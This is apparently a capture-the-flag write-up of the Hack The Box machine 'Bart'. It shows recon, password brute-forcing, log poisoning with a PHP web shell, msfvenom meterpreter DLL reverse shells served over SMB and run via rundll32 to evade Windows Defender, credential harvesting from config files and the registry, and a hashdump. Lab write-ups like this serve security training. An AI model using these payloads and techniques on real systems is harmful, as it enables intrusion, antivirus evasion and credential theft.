## Hackthebox Bart


Today the machine is Bart by mrh4sh. Start off with a quick nmap as usual.
```
$ nmap -v -sC -sV -Pn 10.10.10.81
```
```bash
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 10.0
|_http-favicon: Unknown favicon MD5: 50465238F8A85D0732CBCC8EB04920AA
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://forum.bart.htb/
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```
Just IIS running on what looks like a windows 10 machine that redirects to forum.bart.htb. We do a quick check for any php files sitting on the web server.
```bash
$ dirsearch.py -u 10.10.10.81 -e php -f

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: php | Threads: 10 | Wordlist size: 5963

Error Log: /root/git/dirsearch/logs/errors-19-07-10_15-19-43.log

Target: 10.10.10.81

[15:19:43] Starting: 
[15:19:46] 403 -  312B  - /%2e%2e/google.com
[15:28:40] 200 -   87B  - /error.html
[15:29:16] 301 -  148B  - /forum  ->  http://10.10.10.81/forum/
[15:29:16] 500 -   75B  - /forum/admin/
[15:29:16] 500 -   75B  - /forum/install/install.php
[15:30:16] 302 -    0B  - /index.php  ->  http://forum.bart.htb/
[15:30:19] 302 -    0B  - /INDEX.PHP  ->  http://forum.bart.htb/
[15:30:19] 302 -    0B  - /index.PHP  ->  http://forum.bart.htb/
[15:30:19] 302 -    0B  - /index.php/login/  ->  http://forum.bart.htb/
[15:32:26] 200 -    3KB - /monitor/
```
We take a wild guess that monitor might be another subdomain, so add these addresses forum.bart.htb and monitor.bart.htb to our /etc/hosts and start to look around. The forum seems to be a wordpress site with mostly default content still. There are a few pictures of some employees of this place, the rest looks like garbage:




Checking out the source, in the employee section there is a commented out developer Harvey that could be relevant. His .bart email address h.potter@bart.htb and the other employees reveals some potential usernames and a naming scheme we can look for.  




The other page we have so far is /monitor or monitor.bart.htb, it's just a login panel but it appears we can check those employee names with its forgot password function, and then confirm h.potter the developer and d.simmons head of sales have accounts here at least as "harvey" and "daniel".
 



The page has a csrf token but it doesn't seem to be changing with each request. Before resorting to brute forcing we try to guess some stupid simple passwords and find harvey:potter works and we login, we get to some kind of server monitor application.




Looking at it closer, you can see another subdomain at internal-01.bart.htb and add it to our /etc/host file. 




Another quick check for things on that internal-01.bart.htb and there is this log.txt file that contains 1 record of Harvey and his user agent.
```bash
$ dirsearch.py -u http://internal-01.bart.htb -e php,txt

 _|. _ _  _  _  _ _|_    v0.3.8
(_||| _) (/_(_|| (_| )

Extensions: php, txt | Threads: 10 | Wordlist size: 6344

Error Log: /root/git/dirsearch/logs/errors-19-07-10_22-10-58.log

Target: http://internal-01.bart.htb

[22:10:58] Starting: 
[22:10:59] 403 -  312B  - /%2e%2e/google.com
[22:11:00] 301 -  172B  - /.git/logs/refs/heads  ->  http://internal-01.bart.htb/.git/logs/refs/heads/
[22:11:00] 301 -  166B  - /.git/logs/refs  ->  http://internal-01.bart.htb/.git/logs/refs/
[22:11:00] 301 -  174B  - /.git/logs/refs/remotes  ->  http://internal-01.bart.htb/.git/logs/refs/remotes/
[22:11:00] 301 -  181B  - /.git/logs/refs/remotes/origin  ->  http://internal-01.bart.htb/.git/logs/refs/remotes/origin/
[22:11:00] 301 -  167B  - /.git/refs/heads  ->  http://internal-01.bart.htb/.git/refs/heads/
[22:11:00] 301 -  169B  - /.git/refs/remotes  ->  http://internal-01.bart.htb/.git/refs/remotes/
[22:11:00] 301 -  176B  - /.git/refs/remotes/origin  ->  http://internal-01.bart.htb/.git/refs/remotes/origin/
[22:11:00] 301 -  166B  - /.git/refs/tags  ->  http://internal-01.bart.htb/.git/refs/tags/
[22:11:34] 302 -    4B  - /index.php  ->  simple_chat/login_form.php
[22:11:34] 302 -    4B  - /INDEX.PHP  ->  simple_chat/login_form.php
[22:11:34] 302 -    4B  - /index.PHP  ->  simple_chat/login_form.php
[22:11:34] 302 -    4B  - /index.php/login/  ->  simple_chat/login_form.php
[22:11:37] 301 -  155B  - /log  ->  http://internal-01.bart.htb/log/
[22:11:37] 200 -  404B  - /log/log.txt
[22:11:51] 301 -  155B  - /sql  ->  http://internal-01.bart.htb/sql/
[22:11:51] 301 -  155B  - /SQL  ->  http://internal-01.bart.htb/SQL/
```



We visit the internal-01.bart.htb address now and we get to another login panel.



This one doesnt have a csrf token so its easy to setup bruting with patator and check for Harvey and our other employee accounts. We want to follow redirects from cookies here sent by the application with the follow and accept_cookie flags set to =1.

```bash
$ patator http_fuzz url=http://internal-01.bart.htb/simple_chat/login.php method=POST body="uname=harvey&passwd=FILE0&submit=Login" 0=10k.txt follow=1 accept_cookie=1 -x ignore:fgrep='Invalid Username or Password' -x ignore:fgrep='The Password must be at least 8 characters'
18:12:25 patator    INFO - Starting Patator v0.6 (http://code.google.com/p/patator/) at 2019-07-19 18:12 EDT
18:12:25 patator    INFO -                                                                              
18:12:25 patator    INFO - code size:clen       time | candidate                          |   num | mesg
18:12:25 patator    INFO - -----------------------------------------------------------------------------
18:19:17 patator    INFO - 200  3312:2735      1.201 | Password1                          |   568 | HTTP/1.1 200 OK
18:19:38 patator    INFO - Hits/Done/Skip/Fail/Size: 1/10001/0/0/10001, Avg: 23 r/s, Time: 0h 7m 13s
```

So his password is Password1 and we can login, once inside we see a short talk between the developer and a pissed off head of IT in some kind of internal chat room.




Checking out the source here it's pretty barren except for this log_link script that is sending a GET to log.php including log.txt with a filename= parameter. If we try to issue this request and include a different file, we get a file put contents php error to popup. As we noticed in log.txt, it seems to be one entry with Harvey's name and his user agent. We might be able to change our user agent to some php code, then hope it gets placed into the log.txt file as our new user agent and it will be a classic log poison situation. 
```html
<!-- <div id="title"><h1>[DEV] Internal Chat</h1></div>
<div id="title"><h1>Internal use only</h1></div> -->
<div id="refresh_link"><a href=".">Refresh</a></div>
			<div id="log_link">
				<script>
					function saveChat() {
						// create a serialized object and send to log_chat.php. Once done hte XHR request, alert "Done"
					var xhr = new XMLHttpRequest();
					xhr.onreadystatechange = function() {
    					if (xhr.readyState == XMLHttpRequest.DONE) {
        					alert(xhr.responseText);
    					}
					}
					xhr.open('GET', 'http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey', true);
					xhr.send(null);
					alert("Done");
					}
				</script>
```
We use a firefox plugin to set our user agent to something like ```<?php passthru($_GET['bang']); ?>``` then click the log button. Now we check log.txt and can see our php shell in there.
```bash
$ curl http://internal-01.bart.htb/log/log.txt 
[2018-02-21 22:35:17] - harvey - Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
[2019-07-20 02:02:05] - harvey - <?php passthru($_GET['bang']); ?>
```
If we visit log.php with a bang= parameter in the request we can execute one command at a time with this.




Now to get a shell, first we try using the quick and easy method of impacket smbserver and a typical msf binary, but it's being blocked by some AV on the box and we get disconnected after a few seconds so sad. 




```bash
[*] Started reverse TCP handler on 10.10.14.20:443
msf5 exploit(multi/handler) > [*] Sending stage (206403 bytes) to 10.10.10.81

msf5 exploit(multi/handler) > [*] Meterpreter session 4 opened (10.10.14.20:443 -> 10.10.10.81:50302) at 2019-07-22 18:08:49 -0400

msf5 exploit(multi/handler) > [*] 10.10.10.81 - Meterpreter session 4 closed.  Reason: Died
```


The weird thing here is that x64 payloads are very unstable and get nuked quickly somehow, but a standard x86/32 bit msfvenom payload does not seem to get detected and we get a stable shell that's at least good enough to look around with. Not sure if that's a bug or feature of this box and windows defender. With a 32 bit shell on a 64 bit machine, sometimes various commands and windows tools will not work properly and it's a big pain. If we try harder, we can use rundll32.exe and a dll file with impacket instead of just executing a plain old binary over smb, and it gives us a stable shell with a x64 payload that avoids windows defender. First create the dll with msfvenom and serve it up with impacket:
```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.20 LPORT=443 -f dll -o 64443.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 5120 bytes
Saved as: 64443.dll
$ impacket-smbserver BLAH /root/labs/htb/bart
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies
                                                
[*] Config file parsed                         
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed                      
[*] Config file parsed                                            
[*] Config file parsed                         
[*] Incoming connection (10.10.10.81,49690)
[*] AUTHENTICATE_MESSAGE (\,BART)               
[*] User \BART authenticated successfully      
[*] :::00::4141414141414141                 
```

We setup multi handler in metasploit then use our php shell to exec a rundll command.




```bash
msf5 exploit(multi/handler) > run -j
[*] Exploit running as background job 5.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.20:443
msf5 exploit(multi/handler) > jobs

Jobs
====

  Id  Name                    Payload                              Payload opts
  --  ----                    -------                              ------------
  5   Exploit: multi/handler  windows/x64/meterpreter/reverse_tcp  tcp://10.10.14.20:443

msf5 exploit(multi/handler) > [*] Sending stage (206403 bytes) to 10.10.10.81
[*] Meterpreter session 6 opened (10.10.14.20:443 -> 10.10.10.81:49697) at 2019-07-23 20:18:56 -0400

msf5 exploit(multi/handler) > sessions -i 6
[*] Starting interaction with 6...

meterpreter > sysinfo
Computer        : BART
OS              : Windows 10 (Build 15063).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter > getuid
Server username: NT AUTHORITY\IUSR
```


## Privilege Escalation


Now that we have a nice 64 bit shell back that doesn't disconnect, we can start looking around for ways to elevate to system. There seems to be several accounts related to each employee but nothing really interesting installed here on this machine. Checking out the php files on this simple chat application, we find some sql creds for our buddy Harvey.

```powershell 
C:\inetpub\wwwroot\internal-01\simple_chat\includes>type dbconnect.php
type dbconnect.php
<?php
/**********************************************\
* Copyright (c) 2013 Manolis Agkopian          *
* See the file LICENCE for copying permission. *
\**********************************************/

if (!defined('INCLUDED')){
        define('INCLUDED',true);
        require 'markup_func.php';
        header('HTTP/1.1 403 Forbidden');
        do_html_403();
        die();
}

function db_connect() {
        $con = @mysqli_connect('localhost', 'harvey', '!IC4nB3Th3B3st?', 'internal_chat');
        if ($con === false) {
                return false;
        }

        mysqli_set_charset ($con , 'UTF-8');
        return $con;
}
?>
```
Then we find some more for Daniel Simmons.
```powershell
C:\inetpub\wwwroot\monitor>type config.php
type config.php
<?php
define('PSM_DB_HOST', 'localhost');
define('PSM_DB_PORT', '3306');
define('PSM_DB_NAME', 'sysmon');
define('PSM_DB_USER', 'daniel');
define('PSM_DB_PASS', '?St4r1ng1sCr33py?');
define('PSM_DB_PREFIX', '_');
define('PSM_BASE_URL', 'http://monitor.bart.htb');
C:\inetpub\wwwroot\monitor>
```
We try and do some runas commands with these credentials on one of our payloads like ```runas /user:d.simmons ?St4r1ng1sCr33py? "\\10.10.14.20\BLAH\443https.exe"``` or ```net use \\10.10.14.20\BLAH\443https.exe /user:h.potter !IC4nB3Th3B3st?``` or the rundll method from above but they don't seem to do anything. Harvey's account is in the powershell session users group so that might be something for later if we can find his windows password. We can login to the local mysql with them though, and see in there are some hashes for Harvey, Daniel, and the IT guy Bobby for that simple chat application. We could probably try and crack these and move into those accounts if passwords are being reused, but since this is HTB I'm guessing there is another way to elevate that is more interesting to find than brute forcing so we'll save that for when we get desperate.

```powershell 
C:\inetpub\wwwroot\internal-01\log>mysql -uharvey -p!IC4nB3Th3B3st? -e "select * from user;" internal_chat
mysql -uharvey -p!IC4nB3Th3B3st? -e "select * from user;" internal_chat
uid     uname   passwd
1       harvey  faeff13072fffdb78ec3b08427678f18295ee28b8b0befc63eea2135eee85df3
2       bobby   e15929d8ce341f2dfa07ac7a0b6f32379e43868631f2aebc05a3a97b235d6dcc
3       daniel  f7dbfae1e05efda233b872e9b7f709d3a0f1b042813be01d7e5b9e9788c7c801
```

After awhile we start going through our usual windows priv esc checklists, or we run enjoiz script or maybe JAWS. When we check for the usual registry keys that might contain passwords, you can see in winlogon that the administrators password is down at the bottom in the "DefaultPassword" field. 

```powershell
C:\>reg.exe query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
reg.exe query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    DefaultDomainName    REG_SZ    DESKTOP-7I3S68E
    DefaultUserName    REG_SZ    Administrator
    DisableBackButton    REG_DWORD    0x1
    EnableSIHostIntegration    REG_DWORD    0x1
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ    
    LegalNoticeText    REG_SZ    
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    ShellCritical    REG_DWORD    0x0
    ShellInfrastructure    REG_SZ    sihost.exe
    SiHostCritical    REG_DWORD    0x0
    SiHostReadyTimeOut    REG_DWORD    0x0
    SiHostRestartCountLimit    REG_DWORD    0x0
    SiHostRestartTimeGap    REG_DWORD    0x0
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    WinStationsDisabled    REG_SZ    0
    scremoveoption    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    LastLogOffEndTimePerfCounter    REG_QWORD    0xcdbc433
    ShutdownFlags    REG_DWORD    0x8000022b
    AutoAdminLogon    REG_SZ    1
    DisableLockWorkstation    REG_DWORD    0x0
    EnableFirstLogonAnimation    REG_DWORD    0x1
    AutoLogonSID    REG_SZ    S-1-5-21-988671444-1802818203-1364644418-500
    LastUsedUsername    REG_SZ    Administrator
    DefaultPassword    REG_SZ    3130438f31186fbaf962f407711faddb

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\AlternateShells
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\GPExtensions
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\AutoLogonChecked
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\VolatileUserMgrKey
```

So with that password we can do a PSSession as the administrator user then either cat root.txt or get an elevated shell back with multi handler again.

```powershell
C:\Users\Public>powershell
powershell
Windows PowerShell 
Copyright (C) 2016 Microsoft Corporation. All rights reserved.

PS C:\Users\Public> $username = 'BART\Administrator'
PS C:\Users\Public> $securePassword = ConvertTo-SecureString -AsPlainText -Force '3130438f31186fbaf962f407711faddb'
PS C:\Users\Public> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
PS C:\Users\Public> Enter-PSSession -ComputerName localhost -Credential $credential
[localhost]: PS C:\Users\Administrator\Documents> whoami
whoami
bart\administrator
[localhost]: PS C:\Users\Administrator\Documents> cmd.exe /c "rundll32.exe \\10.10.14.20\BLAH\64443.dll,0"
cmd.exe /c "rundll32.exe \\10.10.14.20\BLAH\64443.dll,0"

[*] Sending stage (206403 bytes) to 10.10.10.81
[*] Meterpreter session 7 opened (10.10.14.20:4444 -> 10.10.10.81:55494) at 2019-07-22 21:43:56 -0400
```
And then our shell this time is administrator.
```bash
msf5 exploit(multi/handler) > sessions -i 7
[*] Starting interaction with 7...

meterpreter > getuid
Server username: BART\Administrator
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:425bb7140b990a4f4f57a0a144b21c71:::
b.hilton:1006:aad3b435b51404eeaad3b435b51404ee:3792e5335b9e38c9581f6810ccfff3f7:::
d.simmons:1005:aad3b435b51404eeaad3b435b51404ee:09c28a6d944ccd120b0c663f78fe06d1:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
h.potter:1003:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
privileged:1004:aad3b435b51404eeaad3b435b51404ee:eb6389c942e5f8ec62d4a8118dcd0dbc:::
```


I guess we skipped user.txt here, it was in h.potters home folder which we couldn't access with our first shell but now we're admin so it doesn't matter. We should have noticed the WinRM service running on port 5985 and reused Harvey's credentials there for another quick path to the user shell. Thanks mrh4sh for the machine I really enjoyed it, nothing super complicated or trollish just lots of short steps to get through this one with a few rabbit holes and things to slow you down. 


